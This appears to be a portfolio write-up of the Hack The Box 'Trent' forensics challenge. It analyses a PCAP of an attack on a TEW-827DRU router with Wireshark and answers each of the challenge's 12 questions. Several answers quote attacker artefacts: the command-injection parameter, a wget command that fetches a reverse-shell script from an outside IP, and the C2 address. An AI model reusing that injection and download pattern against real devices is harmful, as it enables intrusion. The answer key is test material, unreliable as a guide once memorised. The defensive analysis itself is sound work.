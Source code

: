 ```yaml
---
title: PCAP Analysis - Hack The Box Sherlock
layout: post
categories: [projects, write-ups]
date: 2025-05-26 00:00:00 +0530
description: This writeup is a walkthrough of the “Trent” Sherlock from Hack The Box, an investigative challenge testing defensive security skills. Using Wireshark, I analyzed a PCAP file to uncover an attacker’s Techniques, Tactics, and Procedures (TTPs) during a lateral movement attack targeting router firmware.
---
```


# PCAP Analysis: Hack The Box Sherlock Trent

*Published: May 26, 2025*

## Project Overview

This writeup is a walkthrough of the “Trent” Sherlock from Hack The Box, an investigative challenge testing defensive security skills. Using Wireshark, I analyzed a PCAP file to uncover an attacker’s Techniques, Tactics, and Procedures (TTPs) during a lateral movement attack targeting router firmware. The analysis reveals the attacker’s IP, compromised router details, login attempts, and exploitation of a remote code execution vulnerability, demonstrating my network forensics and threat detection capabilities critical for a Security Operations Center (SOC) analyst role.

## Sherlock Scenario

The SOC team detected suspicious lateral movement within the network, targeting router firmware. Anomalous traffic patterns and command execution on the router suggest an internal attacker gained unauthorized access and is attempting further exploitation. The task is to analyze network traffic logs from an impacted machine to identify the attacker’s TTPs.

**Challenge**: Hack The Box Sherlock Trent

## Tools Used

- **Wireshark**: For PCAP analysis, packet filtering, and TCP stream reconstruction.
- **Web Browser**: To research router vulnerabilities and CVE details.

## Analysis Process

The analysis addresses 12 questions to unravel the attack. Below are the findings, supported by Wireshark screenshots and filters.

### Q1: Attacker’s Initial IP Address

Loaded the PCAP in Wireshark and navigated to *Statistics > Conversations > IPv4*. Sorting packets from highest to lowest showed significant traffic between the router (192.168.10.1) and the attacker (192.168.10.2).

**Answer**: 192.168.10.2

### Q2: Model Name of Compromised Router

Filtered HTTP packets between the router and attacker using `ip.addr==192.168.10.2 && ip.addr==192.168.10.1 && http`. Following the TCP stream of packet 13 (first HTTP packet) revealed the router’s model in the response.

**Answer**: TEW-827DRU

### Q3: Number of Failed Login Attempts

Filtered HTTP POST requests from the attacker to the router using `ip.src==192.168.10.2 && ip.dst==192.168.10.1 && http.request.method==POST`. The first three POST requests failed, but the fourth (packet 22826) succeeded, indicating two failed attempts.

**Answer**: 2 failed login attempts

### Q4: UTC Time of Successful Login

From Q3, packet 22826 marked the successful login. Changed Wireshark’s time format (*View > Time Display Format > UTC Date and Time of Day*) to view the timestamp.

**Answer**: 2024-05-01 15:53:27

### Q5: Length of Successful Login Password

From Q3, the successful login packet (22826) showed the credentials. The password field was empty.

**Answer**: 0 (empty string)

### Q6: HTTP Parameter for Remote Code Execution

Examined POST requests post-login, identifying commands passed via the `usbapps.config.smb_admin_name` parameter in HTTP forms, enabling remote code execution.

**Answer**: usbapps.config.smb_admin_name

### Q7: CVE Number of Exploited Vulnerability

Researched the router model (TEW-827DRU) and RCE vulnerability, identifying the associated CVE.

**Answer**: CVE-2024-28353

### Q8: Current Firmware Version

Found the firmware version in the router’s HTTP response.

**Answer**: 2.10B01

### Q9: First Command Executed via Vulnerability

Reviewed POST requests after login, identifying the first command in the `usbapps.config.smb_admin_name` parameter.

**Answer**: whoami

### Q10: Command to Download Reverse Shell

Identified a POST request with a `wget` command to download a reverse shell script.

**Answer**: wget http://35.159.25.253:8000/a1l4m.sh

### Q11: Server Response for Typo in Injection

Followed HTTP streams of failed `wget` attempts, noting the server’s response to a typo.

**Answer**: Access to this resource is forbidden

### Q12: C2 Server IP and Port

Analyzed the successful reverse shell download (packet with `a1l4m.sh`). Followed the HTTP stream to extract the script, revealing a reverse shell command pointing to the C2 server.

**Answer**: 35.159.25.253:41143

## Conclusion

This PCAP analysis of the Hack The Box Sherlock “Trent” demonstrates my ability to investigate complex network attacks, from identifying attacker origins to uncovering exploited vulnerabilities and C2 infrastructure. By dissecting the PCAP file with Wireshark, I mapped the attacker’s TTPs, including brute-force attempts, remote code execution via a vulnerable HTTP parameter, and deployment of a reverse shell. This project highlights my proficiency in network forensics, a core SOC analyst skill, and my ability to document findings clearly for incident response.

### Lessons Learned

- **Wireshark Mastery**: Gained expertise in advanced Wireshark features, such as TCP stream analysis, HTTP filtering (`http.request.method==POST`), and conversation statistics, enabling precise identification of malicious traffic.
- **Attack Lifecycle Understanding**: Learned to trace an attacker’s progression from initial access (login attempts) to exploitation (RCE) and persistence (reverse shell), enhancing my ability to detect multi-stage attacks.
- **Vulnerability Research**: Improved skills in correlating network artifacts (e.g., router model) with external intelligence (e.g., CVE-2024-28353), critical for assessing attack impact.
- **Attention to Detail**: Mastered analyzing subtle differences in HTTP responses (e.g., “Access to this resource is forbidden”) to identify attacker errors, refining my investigative precision.

### Skills Demonstrated

- **Network Forensics**: Proficiently analyzed PCAP files to extract attacker IPs, credentials, and commands, supporting rapid threat identification.
- **Threat Detection**: Identified malicious TTPs, including RCE and C2 communication, aligning with SOC incident response workflows.
- **Tool Proficiency**: Leveraged Wireshark for deep packet analysis and integrated web research for vulnerability context, showcasing technical versatility.
- **Clear Communication**: Documented complex findings in an accessible format, ideal for SOC reports and stakeholder briefings.
